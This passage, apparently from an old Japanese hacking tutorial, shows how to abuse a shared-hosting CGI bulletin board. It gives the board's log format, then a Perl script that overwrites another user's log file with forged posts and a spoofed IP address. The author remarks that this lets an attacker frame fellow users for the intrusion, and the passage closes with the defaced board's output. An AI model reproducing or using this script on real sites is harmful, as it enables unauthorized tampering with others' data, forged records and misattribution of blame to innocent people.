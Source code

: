   読めましたね。フォーマットは、

\-\-\-\-\-
投稿番号<>投稿日<>名前<>??<>題名<>本文<>??<>投稿者のIPアドレス<>??<>
\-\-\-\-\-

なので、

\-\-\-\-\-
3<>6969/69/69(x0x) 69:69<>w0tId<><>Crack.<>Haa..Haa..<><>696.969.696.969<><>
\-\-\-\-\-

　と、こんな感じの記事を追加しましょう。
　よく見ると、BBSのタイトルや色の設定などもファイルにありますから、掲示板
の設定も変更可能ですね :\-)

  では、実際に以下のようなスクリプトで書き込んで見ましょう。

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- write.cgi \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<
\#!/usr/local/bin/perl

$file \= '/usr/home/web/m/mp123/cgi\-bin/kaiem.log';

open(FILE, ">$file");
print FILE <<____EOT;
LIGHT<>Light Board<>008080<>6<>ＭＳ 
Ｐゴシック<><>F5F5F5<>000000<>0000FF<>800080<>FF0000<>../index.html<>100<>green<>blue<><><>
3<>6969/69/69(x0x) 69:69<>w0tId<><>Crack.<>Haa..Haa..<><>696.969.696.969<><>
2<>2002/05/25(Sat) 
16:05<>ひひひ<><>無題<>あひゃひゃひひひひひ<><>168.143.113.102<><>
1<>2002/05/25(Sat) 14:58<>管理人<><>無題<>楽しい話<><>168.143.113.109<><>
____EOT
;
close(FILE);

print "Content\-Type: text/plain\x0d\x0a\x0d\x0a";
print "write\n";

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- cut \- cut \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<

　これは完全なログファイルの置き換えです。この方法だと完璧なIPアドレスの
偽装ができるので、仲間内の犯行に見せかけることもできますね。
　多分書けていますので、掲示板を見に行って見ましょう。

●mp123の掲示板

\-\-\-\-\-
[3] Crack. 投稿者：w0tId 投稿日：6969/69/69(x0x) 69:69

Haa..Haa..

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
[2] 無題 投稿者：ひひひ 投稿日：2002/05/25(Sat) 16:05

あひゃひゃひひひひひ


\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
[1] 無題 投稿者：管理人 投稿日：2002/05/25(Sat) 14:58
